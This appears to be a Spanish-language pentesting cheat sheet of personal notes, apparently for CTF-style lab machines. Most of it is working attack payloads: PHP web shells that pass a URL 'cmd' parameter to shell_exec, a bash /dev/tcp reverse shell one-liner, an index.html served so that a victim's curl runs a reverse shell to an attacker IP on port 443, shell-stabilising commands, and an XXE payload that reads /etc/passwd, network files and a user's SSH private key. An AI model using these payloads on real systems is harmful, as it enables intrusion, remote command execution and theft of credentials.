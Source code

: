 # Diferentes codigos ❮❯

## Tratamiento de la pseudo-consola
```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

## PHP
Con este codigo le decimos a la pagina que queremos que cuando se ejecute comandos cmd los guarde en la variable, esto si estamos en un Framework

* **Code**
function onStart() {
	$this->page["myVar"] = shell_exec(\$\_GET['cmd']);
}

Y para hacerlo funcionar debemos de hacer lo siguiente en:
* **Markup**
{{this.page.myVar}}
Que eso es lo que va a recibir del condigo anterior

Para poder ejecutar comandos en la URL debemos de colocar al final lo siguinete **?cmd=whoami**

****
Permite ejecutar un comando a nivel de sistema en la web y poder poner **?cmd=whoami**

❯ **nano cmd.php**
❮?php 
		echo "❮prep❯" . shell_exec(\$\_GET\['cmd']) . "❮/prep❯";
?❯


## Bash ReverShell
Este comando siempre se ejecuta en la maquina victima para hacer una ReverShell desde una URL
❯ **bash -c 'bash -i >& /dev/tcp/❮IP❯/❮PORT❯ 0>&1'** 
* Para hacer una ReverShell
* IP -> Direccion de la maquina de atacante
* PORT -> Puerto del netcat mas comun 443

****
Hacemos un archivo index.html y al momento de recibir la peticion **Curl** de la maquina victima podremos ejecutar la revershell y este debe ser interpretado por bash
❯ **nano index.html**
	**#!/bin/bash**
	**bash -i >& /dev/tcp/10.10.14.2/443 0>&1**


## XXE
Procedemos a crear un archivo asi:
❯ **vi file.xml** 
	❮?xml version=”1.0” encoding=”ISO-8859-1”?❯
		❮!DOCTYPE foo \[
		❮!ELEMENT foo ANY❯
	❮!ENTITY xxe SYSTEM “file:////opt/blog/server.js”❯]❯
	❮post❯
		❮title❯This is a test❮/title❯
		❮description❯Mensaje de prueba❮/description❯
		❮markdown❯&xxe;❮/markdown❯
	❮/post❯

Comandos que podemos meter en SYSTEM: 
**\file:///proc/net/fib_trie** Que nos muestra las direcciones IP que se encuetran ahi en la maquina 
**\file:///proc/net/tcp** Que nos muestra los puerto abiertos pero de manera interna, miramos que vienen en fomato hexadecimal y podemos desconvertirlos en alguna pagina web.
**\file:////etc/passwd** Ver los usuarios de la maquina 
**\file:///home/admin/.ssh/id_rsa** Tratar de listar la id_rsa de la maquina

## 
